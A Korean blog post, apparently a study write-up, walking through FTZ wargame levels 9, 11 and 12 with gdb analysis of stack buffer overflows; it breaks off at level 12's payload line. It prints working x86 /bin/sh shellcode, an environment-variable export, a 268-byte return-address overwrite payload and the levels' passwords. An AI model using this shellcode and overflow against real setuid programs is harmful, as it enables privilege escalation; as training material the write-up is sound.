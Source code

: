 ```yaml
---
title: FTZ(Level 9, 11, 12)
author: 100zja
date: 2020-08-17
categories: [study]
tags: [ftz]
toc: ture
---
```


## **Level9**  

(1) gdb로 풀기  

![1](/images/구1.PNG) 

ls -al로 파일들을 확인하고  
힌트가 있음을 확인하고 힌트를 읽는다 

![2](/images/구2.PNG)  
코드를 해석해보면  
* char형 변수 buf, buf2가 10 크기의 배열로 각각 선언되고  

* 40만큼의 문자열을 fgets가 입력받아 buf에 저장한다  

* buf2에 저장된 문자가 go와 일치한다면 "Good skill!" 문구 출력과 3010의 level10 권한을 설정하고

* /bin/bash 쉘을 실행한다  

![3](/images/구3.PNG)  

gdb를 실행할 수 있는 권한이 있는 tmp로 이동한 뒤에 cat 명령어로 실행 파일을 생성한 뒤 컴파일한다

![4](/images/구4.PNG)  

gdb를 실행해서 메모리를 확인한다  
* main+3에서 40바이트의 메모리가 할당된다  
* main+43에서 eax에 ebp-40의 주소를 저장함 (buf)    
* main+65에서 eax에 ebp-24의 주소를 저장함(buf2)  
===> buf에서 입력 시에 ebp-40을 넘겨 16바이트를 넘기면 ebp-24 공간을 넘어가 버퍼 오버플로우 발생가능  

![5](/images/구5.PNG) 

/usr/bin으로 이동해 bof 소스를 실행시켜 버퍼 오버플로우를 발생 시키고 level10의 권한을 얻어 my-pass로 확인한다  

### **level10 password : "interesting to hack!"**
-------------


## **Level11**  

![1](/images/십1.PNG)  
ls -al로 파일을 확인하고 cat hint 명령어를 통해 힌트를 열어본다  

![2](/images/십2.PNG)  
* int 배열과 char 배열을 받아옴
* 문자형 str배열의 크기는 256 바이트  
* 3092는 level12의 id임  
* 사용자가 입력한 값을 str에 넣고
* str 출력
====> strcpy에서 취약점이 발생해 버퍼 오버 플로우가 일어난다  

![3](/images/십4.PNG)  


test를 입력하니 그대로 출력된 것으로 보아 힌트가 attackme의 소스코드인 것을 알 수 있다.  

![4](/images/십5.PNG)  
attackme를 권한이 있는 tmp로 복사한 뒤 tmp로 이동해 gdb로 실행시킨다  
gdb를 해석해 보면  
* setreuid전에 확보된 메모리 : 108 + 8 (16진수) = 110 => 272 byte  
* main + 9 : SFP, RET =>8 byte  
===> 256(buffer) + 8(dummy) + 4(SFP) + 4(RET)  

![5](/images/십7.PNG)  
* export 명령어를 통해서 환경변수를 등록해준다  
    - export [환경변수명]=$(python -c 'print "쉘코드"')
* 쉘코드 : "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"  
![6](/images/십8.PNG)  
* env 명령어를 사용해 환경 변수를 확인한다  
    - env 명령어 : 현재 지정되어 있는 환경 변수들을 출력하거나, 새로운 환경 변수를 설정하고 적용된 내용을 출력하는 명령어  
    - env [옵션]... [name = 값]... [명령[인수]...]  

![7](/images/십9.PNG)  
![8](/images/십10.PNG) 

* getenv() 함수 : 환경변수를 읽는 역할  

* SHELLCODE를 실행시키는 프로그램을 짠 뒤 컴파일 해 준다  
dap을 실행해 보면 쉘코드 주소가 나타난다  

![9](/images/십11.PNG)  

* 마지막으로 RET 주소까지 가기 위해서는 268 byte가 필요하므로 페이로드(전송되는 데이터)를 작성해야한다 

* 0xbffffc1d를 리틀엔디안으로 변환하면 \x1d\xfc\xff\xbf  

* 페이로드를 완성하면 ./attackme `python -c 'print "A"*268+"\x1d\xfc\xff\xbf"'`  
그 뒤에 id를 확인하고 level12가 된 것을 확인하고 my-pass를 통해 비밀번호를 확인한다  

### **level12 password : "it is like this"**  
----------------


## **Level 12**

![1](/images/하나.PNG)  
ls -al 명령어로 존재하는 파일들을 확인한다  
힌트가 있는 것을 확인한다

![2](/images/둘.PNG)  
cat hint 명령어를 사용해 힌트를 확인한다  
힌트를 분석해보면  
* 문자형 배열이 256 크기로 선언된다
* level 13의 id가 있고
* gets 함수로 str변수에 입력을 받고
* 입력받은 내용을 printf로 출력한다  
===> gets 함수로 버퍼 오버플로우 취약점이 발생하게 된다

![3](/images/넷.PNG)  
attackme를 gdb로 보기 위해 권한이 있는 tmp 디렉토리로 복사한뒤 tmp로 이동해 gdb로 확인한다  
gdb를 확인해보면   
* main +3 : 264만큼의 메모리 확보  
    - RET - 4 byte
    - SFP - 4 byte
    - str - 256 byte   
===> return address를 덮어쓰기 위해서는 264(str) + 4(sfp) = 268 byte가 필요함  
* main + 49 : ebp - 264 -> str 버퍼부터 ebp까지 거리가 264임  
    - ret : ebp로부터 4byte 아래에 위치하기 때문에 268 byte가 된다(str 부터 ret 까지의 거리)  

문제를 해결하기 위해서는 level11 처럼 쉘코드를 이용해 환경변수에 등록해야한다  
* 쉘 코드 : "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"  

* 환경변수 : export 명령어 샤용  
    - export [환경변수명]=$(python -c 'print "쉘코드"')  
===> - export SHELLCODE=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 를 환경변수로 등록한다  

![4](/images/다섯.PNG)  

그 다음 env 명령어로 등록된 환경변수를 확인한다  

![5](/images/여섯.PNG)  

환경변수에 등록된 쉘코드의 주소를 알아내기 위한 c언어 코드를 작성한 뒤 실행한다  

![6](/images/일곱.PNG)

코드를 컴파일 해준다  

![7](/images/여덟.PNG)  

컴파일 하고 실행해주면 쉘 코드의 주소가 나온다  

마지막으로 쉘 코드 주소를 리틀엔디안으로 변환하고 페이로드를 작성해 답을 구한다

쉘 코드 주소 : 0xbffffc1d
리틀엔디안 변환 : \x1d\xfc\xff\xbf 

페이로드 : 